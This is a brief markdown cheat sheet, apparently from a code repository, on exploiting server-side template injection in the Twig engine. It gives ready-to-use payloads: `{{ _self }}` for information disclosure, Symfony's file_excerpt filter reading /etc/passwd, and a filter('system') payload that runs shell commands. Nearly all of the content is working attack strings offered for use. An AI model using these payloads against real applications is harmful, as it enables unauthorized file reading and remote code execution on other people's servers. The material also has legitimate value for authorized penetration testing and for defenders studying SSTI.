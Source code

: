 # Exploiting SSTI - Twig
***

### Information Disclosure
#### We can use the `_self` keyword to obtain some information about the current template
```twig
{{ _self }}
```

### Local File Inclusion (LFI)
#### Directly, through Twig isn't possible to use internal functions to read local files. Nevertheless , the PHP web framework [Symfony](https://symfony.com/) defines additional Twig filters.
#### The [file_excerpt](https://symfony.com/doc/current/reference/twig_reference.html#file-excerpt) filter can be used to read local files:
```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

### Remote Code Execution (RCE)
#### We can use a PHP built-in function such as **system** to execute a RCE, by passing an argument to the function using Twig's ***filter** function, foe instance:
```twig
{{ ['id'] | filter('system') }}
```


